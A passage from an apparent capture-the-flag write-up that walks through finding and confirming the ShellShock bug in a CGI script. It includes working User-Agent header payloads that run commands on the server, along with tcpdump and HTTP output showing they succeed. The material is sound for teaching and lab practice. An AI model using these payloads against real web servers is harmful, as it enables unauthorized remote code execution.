     
    
    env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
    

This was a big deal because lots of different programs would take user input
and use it to define environment variables, the most famous of which was CGI-
based web servers. For example, it’s very typically to store the User-Agent
string in an environment variable. And since the UA string is completely
attacker controlled, this led to remote code execution on these systems.

### Finding ShellShock

#### Manually

If I’m ok to assume based on the CGI script and the name of that box that
ShellShock is the vector here, I can just test is manually. I’ll send the
request for `user.sh` over to Burp Repeater and play with it a bit. Because
the UA string is a common target, I’ll try adding the POC there:

![image-20210517074858892](https://0xdfimages.gitlab.io/img/image-20210517074858892.png)

Two potential issues to watch out for. First is that commands need full paths,
as `$PATH` variable is empty in the environment in which the ShellShock
executes.

Next, I need the `echo;` as the first command run for the responses to come
back in an HTTP response, but it does run either way. For example, I’ll do a
`ping`. Sending `User-Agent: () { :;}; echo; /bin/ping -c 1 10.10.14.15` shows
an ICMP packet at `tcpdump` on my VM:

    
    
    07:52:43.101742 IP 10.10.10.56 > 10.10.14.15: ICMP echo request, id 12866, seq 1, length 64
    07:52:43.101766 IP 10.10.14.15 > 10.10.10.56: ICMP echo reply, id 12866, seq 1, length 64
    

The results come back in the response:

    
    
    HTTP/1.1 200 OK
    Date: Mon, 17 May 2021 11:57:37 GMT
    Server: Apache/2.4.18 (Ubuntu)
    Connection: close
    Content-Type: text/x-sh
    Content-Length: 261
    
    PING 10.10.14.15 (10.10.14.15) 56(84) bytes of data.
    64 bytes from 10.10.14.15: icmp_seq=1 ttl=63 time=18.9 ms
    
    --- 10.10.14.15 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 18.955/18.955/18.955/0.000 ms
    

If I remove the `echo;`, and send `User-Agent: () { :;}; /bin/ping -c 1
10.10.14.15`, `tcpdump` still sees the ICMP packet, but the response from the
server is a 500. I think that without the newline, it puts the output in the
HTTP headers, which is non-compliant stuff in the headers, leading to a crash.
That said, I wasn’t able to get things like `python3 -c 'print()'` to create
the newline and return results (though it prevents the 500). I didn’t have a
good explanation as to why, but also couldn’t let it go, so more in Beyond
Root.
